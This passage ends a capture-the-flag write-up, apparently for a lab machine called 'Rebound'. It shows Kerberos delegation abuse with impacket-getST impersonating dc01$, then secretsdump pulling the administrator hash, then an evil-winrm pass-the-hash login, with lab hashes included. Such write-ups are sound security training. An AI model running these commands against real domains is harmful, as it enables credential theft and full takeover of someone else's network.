 For the next step we'll request a Service Ticket for the SPN `http/dc01.rebound.htb` and feed it the recently obtained `.ccache`  ticket for `dc01$` with the help of the `-additional-ticket` flag. 

```shell
impacket-getST -spn 'http/dc01.rebound.htb' -impersonate "dc01$" -additional-ticket 'dc01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache' 'rebound.htb/delegator$' -k -no-pass -hashes :43e9069a73081ecfcbe1514e1d4e3bc8 
```

![](Pasted%20image%2020240426012848.png)

Finally, we can use this final `.ccache` ticket with `secretsdump` which lets us obtain the administrator hash and get a shell with Evil-WinRM for the root flag.

```shell
export KRB5CCNAME='dc01$@http_dc01.rebound.htb@REBOUND.HTB.ccache' 

impacket-secretsdump -no -k dc01.rebound.htb -just-dc-user administrator 

```

![](Pasted%20image%2020240426013024.png)

```shell
evil-winrm -i 10.10.11.231 -u Administrator -H 176be138594933bb67db3b2572fc91b8
```

![](Pasted%20image%2020240426013146.png)

---
Somehow we've actually reached the end. This box was a doozy! If you made it this far, however unlikely that is, thank you for reading!
